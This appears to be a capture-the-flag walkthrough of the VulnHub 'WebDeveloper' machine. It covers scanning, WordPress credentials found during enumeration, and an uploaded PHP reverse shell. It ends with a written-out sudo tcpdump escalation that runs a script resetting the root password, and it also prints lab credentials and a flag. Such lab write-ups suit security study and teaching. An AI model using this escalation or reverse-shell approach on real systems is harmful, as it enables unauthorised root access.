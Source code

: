 ```yaml
---
categories: [VulnHub]
tags: [Wordpress, Wireshark, PrivEsc, CMS, tcpdump]
image:
  path: /Vulnhub-Files/img/WebDeveloper/Untitled%202.png
  alt: WebDeveloper Machine 🕸️
---
```



## Description ⤵️

>    💡 A machine using the newest
<br><br>
    REMOVED
<br><br>
    ### Server, the newest
<br><br>
    REMOVED
<br><br>
    ### and containing some
<br><br>
    REMOVED
<br><br>
    ## Changelog v1 - 2018/11/05 Beta - 2018/9/22
{: .prompt-info}



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled.png)

```bash
IP : 192.168.56.107
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%201.png)

```text
Open Ports >
22	SSH
80	HTTP
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

I checked the port 80 :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%202.png)

After Directory Bruteforcing we got this :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%203.png)

After diging in I got this finally :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%204.png)

```bash
Credentials ->
log = webdeveloper
pwd = Te5eQg&4sBS!Yr$)wf%(DcAd
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%205.png)

Now it time to upload reverse shell code and get the shell up and running :>

**With PHP reverse shell linux code I got this :**

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%206.png)

Got these credentials from wp-config.php file :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%207.png)

```bash
Password : MasterOfTheUniverse
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2010.png)

flag.txt :

Congratulations here is youre flag:

`cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290`

For the root shell I changed the passwd of root to root with chpasswd command :

```bash
Command :

echo "root:root" > test.txt
COMMAND="cat /tmp/test.txt | chpasswd"
TFt=$(mktemp)
echo "$COMMAND" > $TFt
chmod +x $TFt
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TFt -Z root
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2011.png)

Now the flag →

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2012.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }